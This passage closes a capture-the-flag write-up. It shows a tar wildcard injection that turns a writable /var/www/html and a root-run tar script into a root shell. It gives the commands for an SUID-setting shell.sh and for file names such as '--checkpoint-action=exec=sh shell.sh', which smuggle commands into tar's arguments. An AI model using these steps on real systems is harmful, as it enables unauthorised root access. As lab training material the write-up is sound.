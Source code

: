 ![Pasted image 20241121143635.png](../../IMAGES/Pasted%20image%2020241121143635.png)

We are able to write in it, so, we need to put the following in order to get a higher privileged shell:

```ad-hint

We need to run this commands inside of `/var/www/html`

1. printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
2. echo "" > "--checkpoint-action=exec=sh shell.sh"
3. echo "" >> --checkpoint=1

The process we followed is a `wildcard injection`, we are taking advantage of the script, which uses tar and we inject a shell that gets executed once the script runs once again.


After a minute, we will be able to execute `/bin/bash -p` and get a root shell:

#### Output
---




```

And that's all for this CTF.

